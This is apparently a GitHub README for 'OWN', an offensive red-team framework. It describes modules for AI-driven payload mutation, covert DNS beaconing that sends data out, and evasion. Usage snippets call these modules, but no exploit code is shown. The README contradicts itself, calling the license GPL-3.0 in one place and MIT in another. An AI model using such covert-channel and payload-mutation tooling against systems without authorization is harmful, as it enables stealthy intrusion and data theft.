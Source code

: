![OWN Logo](.github/branding/logo.png)

# OWN - Security Tooling

> **Legal Notice**: For authorized security testing, education, and research only. Users must comply with all applicable laws.

[![CI](https://github.com/GnomeMan4201/OWN/actions/workflows/ci.yml/badge.svg)](https://github.com/GnomeMan4201/OWN/actions)
[![Security](https://img.shields.io/badge/Security-Audited-green.svg)](SECURITY.md)

## Quick Start

```bash
git clone https://github.com/GnomeMan4201/OWN.git
cd OWN
./quickstart.sh
```

## Overview

Professional security tool for red team operations and security research.

## Features

- Enterprise-grade security testing
- Modular architecture
- Comprehensive documentation
- Active maintenance

## Installation

```bash
# Docker
docker-compose up -d

# Manual
pip install -r requirements.txt
```

## Documentation

Full documentation: [docs/](docs/)

## Security

Report vulnerabilities: [SECURITY.md](SECURITY.md)

## License

GPL-3.0 - See [LICENSE](LICENSE)

### Quick Start
```bash
# Run the quickstart script
./quickstart.sh

# Or run directly
python -m OWN_PACKAGE.pwn
Usage

Basic Operation

```python
from OWN_PACKAGE.pwn import main
from OWN_PACKAGE.phases import adaptive_mutator, dns_beacon

# Initialize the framework
controller = main.OWNController()

# Run adaptive security assessment
results = controller.run_assessment(target="example.com")
```

Module Examples

```python
# AI-driven payload mutation
from OWN_PACKAGE.phases.adaptive_mutator import AdaptiveMutator
mutator = AdaptiveMutator()
mutated_payload = mutator.mutate(original_payload)

# Covert DNS communication
from OWN_PACKAGE.phases.dns_beacon import DNSBeacon
beacon = DNSBeacon(domain="example.com")
beacon.send_data(encrypted_data)
```

Architecture

```
OWN/
├── OWN_PACKAGE/
│   ├── phases/           # 42 specialized modules
│   │   ├── ai_loop.py           # AI decision engine
│   │   ├── adaptive_mutator.py   # Payload mutation
│   │   ├── dns_beacon.py        # Covert communications
│   │   ├── memory_engine.py     # In-memory operations
│   │   └── [38 more modules...]
│   ├── pwn.py           # Main controller
│   └── payloads/        # Attack payloads
├── assets/              # Logos and demos
├── .github/workflows/   # CI/CD pipelines
└── quickstart.sh        # Setup script
```

Development

Code Quality

```bash
# Install development tools
pip install black isort flake8 pre-commit

# Run code formatting
black OWN_PACKAGE/

# Run linting
flake8 OWN_PACKAGE/

# Install pre-commit hooks
pre-commit install
```

Testing

```bash
# Run the test suite
python -m pytest tests/

# Verify functionality
python -m OWN_PACKAGE.pwn --test
```

⚠️ Security & Responsibility

Important: This tool is designed for:

· Authorized penetration testing
· Security research and education
· Defensive security development

Never use against systems you don't own or have explicit permission to test.

See SECURITY.md for responsible disclosure guidelines.

Contributing

We welcome contributions from security professionals.

1. Fork the repository
2. Create a feature branch (git checkout -b feature/advanced-module)
3. Commit your changes (git commit -m 'Add advanced evasion technique')
4. Push to the branch (git push origin feature/advanced-module)
5. Open a Pull Request

Please read our Security Guidelines before contributing.

License

This project is licensed under the MIT License - see the LICENSE file for details.

Authors

· GnomeMan4201 - Initial work and maintenance

Acknowledgments

· Cybersecurity community for research and techniques
· Open-source security tools that inspired this project
· AI/ML security research advancements

---

Disclaimer: Use responsibly and only in ethical, legal security testing contexts.

⭐ If this project helps you, please give it a star
